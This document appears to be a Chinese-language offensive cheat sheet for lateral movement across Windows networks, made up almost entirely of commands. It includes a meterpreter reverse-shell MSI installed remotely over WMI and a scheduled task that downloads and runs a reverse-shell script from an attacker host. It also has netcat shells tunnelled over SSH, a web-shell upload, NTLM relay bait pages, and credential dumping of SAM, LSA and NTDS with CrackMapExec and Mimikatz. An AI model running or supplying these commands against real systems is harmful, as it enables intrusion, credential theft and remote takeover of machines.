 ### WinRM

```bash
Enable-PSRemoting -Force

Set-Item wsman:\localhost\client\trustedhosts *
or
wmic /node:IP地址 process call create "powershell enable-psremoting -force"

Test-WSMan IP地址
```

```bash
Invoke-Command -computername 主机名 -ScriptBlock {ipconfig} -Credential (Get-Credential)
Enter-PSSession -computername 主机名 -Credential (Get-Credential)
```

### WMI

```bash
wmic /node:IP地址 /user:用户名 process call create "cmd.exe /c calc"
```

1. WMI结合MSI

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=IP地址 lport=4444 -f msi > msf.msi
```

```bash
net use \\WIN-DBR3H49FQJ3\Public; copy C:\Users\Public\msf.msi \\192.168.0.173\Public\setup.msi; wmic /node:192.168.0.173 /user:snowwolf product call install PackageLocation=C:\Users\Public\setup.msi
```

```bash
net use \\WIN-DBR3H49FQJ3\Public; copy C:\Users\Public\msf.msi \\192.168.0.173\Public\setup.msi
Invoke-WmiMethod -Path win32_product -name install -argumentlist @($true,"","C:\Users\Public\setup.msi") -ComputerName DESKTOP-PC -Credential (Get-Credential)
```

```bash
$username = 'snowwolf';$password = '123qwe!@#';$securePassword = ConvertTo-SecureString $password -AsPlainText -Force; $credential = New-Object System.Management.Automation.PSCredential $username, $securePassword; Invoke-WmiMethod -Path win32_product -name install -argumentlist @($true,""," C:\Users\Public\setup.msi") -ComputerName 主机名 -Credential $credential
```

2. WMI结合New-ScheduledTaskAction

```bash
$connection = New-Cimsession -ComputerName 主机名 -SessionOption (New-CimSessionOption -Protocol "DCOM") -Credential ((new-object -typename System.Management.Automation.PSCredential -ArgumentList @("登录用户", (ConvertTo-SecureString -String '密码' -asplaintext -force)))) -ErrorAction Stop; register-scheduledTask -action (New-ScheduledTaskAction -execute "calc.exe" -cimSession $connection -WorkingDirectory "c:\windows\system32") -cimSession $connection -taskname "snowwolf"; start-scheduledtask -CimSession $connection -TaskName "snowwolf"
```

### Web目录共享

```bash
smbclient -L \\IP地址 -U administrator
smbclient //192.168.0.109/wwwroot -U administrator
put /usr/share/webshells/aspx/cmdasp.aspx shell.aspx
```

### SmbExec

```bash
smbexec.py 域/用户@IP地址
sc create notevilserver binPath= "cmd.exe /c calc"
sc start notevilserver
```

### SMB中继

```bash
nmap -p 445 IP地址 -sS --script smb-security-mode.nse
```

smb.html:

```html
<html>
    <h1>There is not have malicious app.</h1>
    <img src="file://IP地址/payload/nothave.jpg">  //修改为攻击者主机IP地址
</html>
```

```bash
impacket-smbrelayx -h 目标主机IP地址 -c "ipconfig"
echo -e "hex"
```

### NetNLTMv2中继

```bash
impacket-ntlmrelayx -t 目标主机IP地址 -c "cmd.exe /c whoami"
```

nltm.html:

```html
<html>
    <h1>There is not have malicious app.</h1>
    <img src="file://IP地址/payload/nothave.jpg">  //修改为攻击者主机IP地址
</html>
```

### ShadowMove

[shadowmove.cpp](横向移动/shadowmove.cpp)

```bash
nc -lvp 5000
```

```bash
.\nc.exe 192.168.0.189 5000
.\shadowmove.exe PID 192.168.0.189  //PID为nc PID
```

### WinRS

```bash
Enable-PSRemoting -Force

Set-Item wsman:\localhost\client\trustedhosts *
or
wmic /node:IP地址 process call create "powershell enable-psremoting -force"

Test-WSMan IP地址
```

```bash
winrs -r:主机名 "cmd /c hostname & ipconfig"
```

### DCOM

```bash
Get-CimInstance Win32_DCOMApplication
$dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","目标主机IP地址"))
$dcom.Document.ActiveView.ExecuteShellCommand("cmd",$null,"/c calc","7")
```

### PsExec

[PsExec](https://learn.microsoft.com/en-us/sysinternals/downloads/psexec)

```bash
PsExec.exe -accepteula \\目标主机名 cmd.exe
```

### NC中继

```bash
sudo apt-get install netcat
```

```bash
nc -l 1234
```

```bash
nc -lvp 4444 | nc 目标主机IP 1234
```

```bash
nc 中继主机IP 4444
```

###  SSH隧道

1. 本地转发

```bash
nc -lvp 4444 -e /bin/bash
```

```bash
ssh -L5555:目标主机IP地址:4444 root@目标主机IP地址 -N -f
```

```bash
nc 127.0.0.1 5555
```

2. 远程转发

```bash
nc -lvp 4444 -e /bin/bash
```

```bash
ssh -R5555:localhost:4444 snowwolf@攻击者主机IP地址 -fN
```

```bash
nc localhost 5555
```

3. 动态转发

```bash
ssh -D8080 snowwolf@目标主机IP地址
```

THC:

[thc.org](https://www.thc.org/segfault/)

```bash
ssh -D8080 root@segfault.net
```

### At

```bash
at \\192.168.0.173 12:00 /interactive cmd.exe /c calc
```

```bash
at \\192.168.0.173
```

### Schtasks

```bash
schtasks /create /sc weekly /s 主机名或IP地址 /u 用户名 /p '密码' /tn "ReverseShellTask" /tr "powershell -NoP -NonI -W Hidden -Exec Bypass -Command `\"IEX (New-Object Net.WebClient).DownloadString('http://攻击者主机IP地址/payload/reverseshell.ps1')`\"" /st 12:00
```

### CrackMapExec

```bash
crackmapexec smb IP地址 -u 用户名 -p 密码
crackmapexec smb 192.168.0.0/24
crackmapexec smb 192.168.0.0/24 -u 'administrator' 'snowwolf' -p '123qwe!@#' '123qwe' 'snowwolf'
crackmapexec smb 192.168.0.0/24 -u username.txt -p password.txt
```

1. 凭据转储

```bash
crackmapexec smb 受控主机 -u 用户名 -p 密码 --sam
crackmapexec smb 受控主机 -u 用户名 -p 密码 --lsa
crackmapexec smb 受控主机 -u 用户名 -p 密码 --ntds drsuapi
crackmapexec smb 受控主机 -u 用户名 -p 密码 --ntds vss
crackmapexec smb 192.168.0.173 -u 'snowwolf' -H HASH
```

2. 执行远程目标主机命令

```bash
crackmapexec smb 192.168.0.173 -u 'snowwolf' -H HASH -x 'net users'
crackmapexec smb 192.168.0.173 -u 'snowwolf' -H HASH -x 'net users' --exec-method  [atexec/wmiexec]
crackmapexec smb 192.168.0.173 -u 'snowwolf' -H HASH --wmi "select Name from Win32_UserAccount"
```

### 传递HASH

1. CrackMapExec

```bash
crackmapexec smb 目标主机IP地址 -u 用户名 -H HASH -x whoami
```

2. evil-winrm

```bash
evil-winrm -i IP地址 -u 用户名 -H 'HASH'
```

3. Metasploit

```bash
use exploit/windows/smb/psexec
set RHOSTS
set SMBUser
set SMBPass
run
```

4. smbclient

```bash
smbclient //IP地址/共享资源路径/ -U 用户名 --pw-nt-hash HASH值 -W 域
```

5. Mimikatz

```bash
privilege::debug
sekurlsa::pth /user:administrator /domain:域 /ntlm:HASH值 /run:powershell.exe
```

### 越过HASH

```bash
privilege::debug
sekurlsa::ekeys
sekurlsa::pth /user:Administrator /domain:域 /aes256:HASH
```

```bash
privilege::debug
sekurlsa::tickets /export
kerberos::ptt .kirbi
kerberos::list
misc::cmd
```

### 传递缓存

```bash
impacket-getTGT -dc-ip IP地址 -hashes :HASH值 域/administrator
```

```bash
privilege::debug
kerberos::ptc administrator.ccache
misc::cmd
```
